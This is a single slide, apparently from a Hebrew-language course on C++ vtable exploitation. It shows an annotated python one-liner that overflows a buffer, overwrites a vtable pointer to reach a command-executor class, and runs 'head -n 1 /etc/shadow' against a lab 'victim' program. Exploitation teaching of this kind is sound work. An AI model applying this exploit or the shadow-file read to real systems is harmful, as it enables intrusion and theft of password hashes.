

# Ex1.1 - Exploiting C++ VTABLES
לסיום ניצור את שורת הקלט שלנו
python -c 'print "y\x00" + 		// make the age check pass
"A"*62 + 			// fill the rest of 'buf‘
" \x74\x88\x04\x08" + 		// overwrite g's vtable pointer with the address of 					CommandExecutor's vtable
"\n" + 				// end the first input
"head -n 1 /etc/shadow\n"‘	// command to run.
| ./victim.c